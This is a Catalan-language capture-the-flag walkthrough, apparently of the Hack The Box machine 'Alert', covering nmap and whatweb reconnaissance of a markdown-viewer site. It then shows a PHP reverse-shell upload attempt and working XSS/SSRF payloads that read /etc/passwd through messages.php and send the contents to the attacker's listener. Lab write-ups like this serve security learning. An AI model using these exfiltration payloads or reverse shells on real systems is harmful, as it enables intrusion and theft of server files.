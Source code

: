 Anirem directament al reconeixement actiu per fer-ne via, fent un nmap directament i saltant-nos el reconeixement passiu:
```
┌──(polkali㉿kaliPol)-[~]
└─$ nmap -sC -sV -v 10.10.11.44
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 09:21 CET
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Initiating Ping Scan at 09:21
Scanning 10.10.11.44 [4 ports]
Completed Ping Scan at 09:21, 2.20s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:21
Completed Parallel DNS resolution of 1 host. at 09:21, 0.06s elapsed
Initiating SYN Stealth Scan at 09:21
Scanning 10.10.11.44 [1000 ports]
Discovered open port 80/tcp on 10.10.11.44
Discovered open port 22/tcp on 10.10.11.44
Completed SYN Stealth Scan at 09:21, 3.37s elapsed (1000 total ports)
Initiating Service scan at 09:21
Scanning 2 services on 10.10.11.44
Completed Service scan at 09:21, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.44.
Initiating NSE at 09:21
Completed NSE at 09:21, 1.43s elapsed
Initiating NSE at 09:21
Completed NSE at 09:21, 0.18s elapsed
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Nmap scan report for 10.10.11.44
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Initiating NSE at 09:21
Completed NSE at 09:21, 0.00s elapsed
Initiating NSE at 09:21
Completed NSE at 09:21, 0.01s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
           Raw packets sent: 1171 (51.476KB) | Rcvd: 1002 (40.088KB)
                                                                             
```

Trobem dos ports oberts, accés a una web per el port 80 per http i a la que tinguem unes credencials ens podrem connectar per SSH ja que també té el port 22 obert. 

Abans de anar al port 80 per el navegador, farem un curl i un whatweb per veure que hi ha. Ho fem directe a la IP ja que encara no tenim el domini, i així potser el podem treure.

El curl ens indica que la pàgina web s'ha mogut de lloc i ens retorna un 301 de redirecció, però veiem també el nom del domini cosa que ens servirà per afegir-lo a l'`/etc/hosts`: 

```
curl http://10.10.11.44
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://alert.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 10.10.11.44 Port 80</address>
</body></html>
```

Ara fem el whatweb:

```
┌──(polkali㉿kaliPol)-[~]
└─$ whatweb http://10.10.11.44
http://10.10.11.44 [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.44], RedirectLocation[http://alert.htb/], Title[301 Moved Permanently]
ERROR Opening: http://alert.htb/ - no address for alert.htb

```

Veiem que ens redirecciona a alert.htb, per tant ara l'afegirem al nostre fitxer `/etc/hosts` i veiem també, interessant, la versió del servidor apache que on corre la pàgina web.
```
sudo nano /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.10.11.38     chemistry.htb
10.10.11.32     sightless.htb
127.0.0.1       sightless.htb
10.10.11.44     alert.htb
```

Ara, amb el domini, tornarem a fer el curl i el whatweb:

Amb el curl veiem l'html de la pàgina web:
```
curl http://alert.htb  
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
            </nav>
    <div class="container">
            </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

I amb el whatweb a veure si podem treure alguna informació extra:
```
whatweb http://alert.htb
http://alert.htb [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.44], RedirectLocation[index.php?page=alert], Title[Alert - Markdown Viewer]
http://alert.htb/index.php?page=alert [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.44], Title[Alert - Markdown Viewer]
```

Veiem que ens redirigeix a un index.php, interessant, segurament hi haurà un formulari per on haurem d'intentar accedir amb XSS o SQL Injection o amb alguna vulnerabilitat d'algun software que no ens apareix amb el whatweb.

Pel que veiem a la pàgina, és una eina/programa web per visualitzar fitxers markdown (.md). Per veure si està limitat correctament la càrrega de fitxers .md provem de pujar una imatge a veure si podem:

![image](https://github.com/user-attachments/assets/3925704c-3e31-4f1e-9615-26d145bd3bc8)

Aconseguim pujarla, però ens surt l'error següent:

![image](https://github.com/user-attachments/assets/5aafac9e-d78c-458a-846f-8a31e41df553)


```
Error: File must be a Markdown file (.md). 
```

Per tant, ara, el següent pas que farem serà pujar un fitxer .md a veure si el podem visualitzar correctament amb aquesta eina.

![image](https://github.com/user-attachments/assets/8012d237-ed28-48d6-9c8c-bf3da0421ac0)


I sí, l'aplicació web funciona i ens permet veure el fitxer markdown que acabem de pujar:

![image](https://github.com/user-attachments/assets/dab1d4bd-1654-4b51-a6db-73770aac162b)


Curíos que a baix a la dreta hi ha un botó que posa "Share markdown". Si hi cliquem ens obre la visualització del markdown en una altra pestanya.


![image](https://github.com/user-attachments/assets/df65cef0-4241-41d1-baef-757f6be29496)


Pel que veiem, sembla que haurem de pujar un fitxer markdown amb alguna reverse shell en php.

Ara, provarem de pujar una reverse shell amb de PHP amb el format .md a veure si funciona (no crec que sigui tant senzill). He agafat la reverse shell de https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php . Tal i com indica l'script, simplement hem canviat aquesta part:
```
$ip = '10.10.14.148';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```
Mentre a la nostra màquina obrim el port per escoltar:
```
┌──(kali㉿kali)-[~/Documents/Alert]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Ara cliquem a View Markdown, i no veiem res, no es visualitza l'script php però tampoc funciona la reverse shell. Després de provar vàris reverse shell en vàris llenguatges de programació diferents, bash, php, python, ... provarem a fer XSS. He trobat un payload per fer-ho, que combina XSS (Cross-Site Scripting) i SSRF (Server-Side Request Forgery). El payload que posem al fitxer markwodn és el següent:

```
<script>
fetch("http://alert.htb/messages.php?file=filepath")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.148:4444/?file_content=" + encodeURIComponent(data));
  });
</script>
```

Al pujar aquest payload en un fitxer markdown, funciona:

```
┌──(kali㉿kali)-[~/Documents/Alert]
└─$ nc -nlvp 4444              
listening on [any] 4444 ...
connect to [10.10.14.148] from (UNKNOWN) [10.10.14.148] 43340
GET /?file_content=%0A HTTP/1.1
Host: 10.10.14.148:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://alert.htb/
Origin: http://alert.htb
Connection: keep-alive
Priority: u=4
```

Per tant, ara ja podem a¡començar a buscar i extreure dades. amb XSS anar provant a veure si aconseguim llegir algun fitxer interessant. A veure si podem llegir el que hi ha al home. Al no tenir una reverse shell, haurem d'utilitzar el payload per llegir l'/etc/passwd, per fer això hem deixat el payload així. Després de vàries proves per fer XSS i buscar el fitxer /etc/passwd, la versió que ha funcionat el payload ha estat la següent:
```
script>
fetch("http://alert.htb/messages.php?file=/etc/passwd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.148:4444/?file_content=" + encodeURIComponent(data));
  });
</script>
```


